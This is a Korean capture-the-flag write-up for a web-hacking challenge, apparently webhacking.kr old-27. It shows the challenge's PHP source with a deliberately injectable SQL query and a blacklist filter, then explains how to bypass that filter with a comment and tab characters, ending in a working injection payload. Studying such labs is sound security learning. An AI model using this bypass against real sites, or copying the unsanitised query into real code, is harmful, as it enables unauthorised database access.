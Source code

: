 * old-18의 심화된 버전이다.
```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 27</title>
</head>
<body>
<h1>SQL INJECTION</h1>
<form method=get action=index.php>
<input type=text name=no><input type=submit>
</form>
<?php
  if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
  $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
  if($r['id']=="guest") echo("guest");
  if($r['id']=="admin") solve(27); // admin's no = 2
}
?>
<br><a href=?view_source=1>view-source</a>
</body>
</html>
```
* no=2임을 구분해야 하는데, '='을 못쓰니, 1 말고 2를 구분할 기호가 필요하다.
    * no=1 or no > 1
* 이떄, no=(query문) 꼴이므로, 내가 닫아주고 뒤에 있는 )는 주석으로 없애줘야 한다.
    * #이나 --를 사용해야 한다.
    * /**/도 가능하지만, 여기서는 닫아줘야 하는 값이 가장 끝에 있으므로, 쓰기 어려워 보인다.
    * no=1 or no > 1-- 
    * 뒤에 공백을 포함해줘야 하는 이유는 공식 문서를 통해 알 수 있다.
        > 9.6 Comment Syntax
        > MySQL Server supports three comment styles:
        > From a # character to the end of the line.
        > From a --  sequence to the end of the line. In MySQL, the --  (double-dash) <h3>**comment style requires the second dash to be followed by at least one whitespace or control character (such as a space, tab, newline, and so on)**</h3>. This syntax differs slightly from standard SQL comment syntax, as discussed in Section 1.7.2.4, “'--' as the Start of a Comment”.
        > From a /* sequence to the following */ sequence, as in the C programming language. This syntax enables a comment to extend over multiple lines because the beginning and closing sequences need not be on the same line.
    * space 관련 문제는 old-18에서 해결했듯이, tab에 해당하는 %09로 해결하자.
* answer query: 2%29%09or%09no>1--%09